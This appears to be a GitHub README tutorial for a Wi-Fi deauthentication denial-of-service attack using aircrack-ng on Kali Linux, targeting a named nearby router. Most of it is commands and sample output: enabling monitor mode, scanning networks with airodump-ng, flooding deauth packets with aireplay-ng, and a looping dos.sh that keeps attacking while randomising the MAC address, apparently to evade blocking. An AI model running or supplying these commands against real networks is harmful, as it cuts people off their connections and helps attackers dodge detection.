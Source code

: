 # DOS-Attack


**What is DOS ATTACK?**

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.
For More Depth [Wikipedia](https://en.wikipedia.org/wiki/Denial-of-service_attack)

---

USING AIRCRACK-NG

```bash
root@kali:~# ifconfig

```
note down the name of your wireless interface
here **wlan0** is used and create a .sh file (use your favourite text editor)

```bash
root@kali:~#vi monitor.sh

(for using vim editor type)

insert
type whatever content u want to whatever
esc
:wq)

```
[For More Vim Command](https://www.tutorialspoint.com/vim/vim_editing.htm)

*And type the following command*

```bash
#!/bin/bash

ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0 | grep Mode

```

In Another tab:

```bash
root@kali:~# chmod +x monitor.sh
root@kali:~# ./monitor.sh

(some expected output)

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=20 dBm

root@kali:~#airodump-ng wlan0

(scanning)

some expected output

CH 10 ][ Elapsed: 1 min ][ 2020-05-01 06:41 ][ interface wlan0 down                                                                                                                                             

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                 

 BE:2A:16:CC:C4:C0  -31      100        0    0  11  180   WPA2 CCMP   PSK  ABHIJIT                                                                                                                               
 BE:2F:3D:31:8A:CC  -24      151        0    0   1   65   WPA2 CCMP   PSK  vivo 1609                                                                                                                             
 C4:E9:0A:E3:5D:3C  -62      179        0    0   6  270   WPA2 CCMP   PSK   AUTO CENTER

 ```

Note down the channel no. and BSSID of the router you want to attack here we are attacking ESSID "ABHIJIT"
channel=11
**BBSID=BE:2A:16:CC:C4:C0**

```bash
root@kali:~# iwconfig channel 11

(switching to the required channel)

root@kali:~# aireplay-ng -0 0 -a BE:2A:16:CC:C4:C0 wlan0 -e ABHIJIT

```

('-0' is used for deauthentication the next number denotes the number the deauthentication packets to be sent if it is 0 it will send continuously untill stopped manually)

#####EXTRA TIPS (IFF not using virtual systems)

creating a .sh which will continuously send some deauthentication packets and then change the mac address of the system , sleeping for some seconds and then the process carries on

```bash
root@kali:~# vi dos.sh

#!/bin/bash


while true
do
        iwconfig wlan0 channel $1
        aireplay-ng -0 5 -a $2 wlan0
        ifconfig wlan0 down
        macchanger -r eth0 | grep "New MAC"
        ifconfig wlan0 up
        sleep 3

done

```
**In different Tab**

```bash
root@kali:~#chmod +x dos.sh

root@kali:~#./dos.sh 11 BE:2A:16:CC:C4:C0

```

(dynamic value is used in the dos.sh, 11 goes to $1 , BE:2A:16:CC:C4:C0 goes to $2)


**NOTE**
>after the process the wireless interface can show trouble so run the below code or  reboot your system
```bash
root@kali:~#service network-manager restart

```
Author -[Kakí_epíthesi](https://github.com/kaki-epithesi)

[ALL CODES](https://github.com/kaki-epithesi/dos-attack)
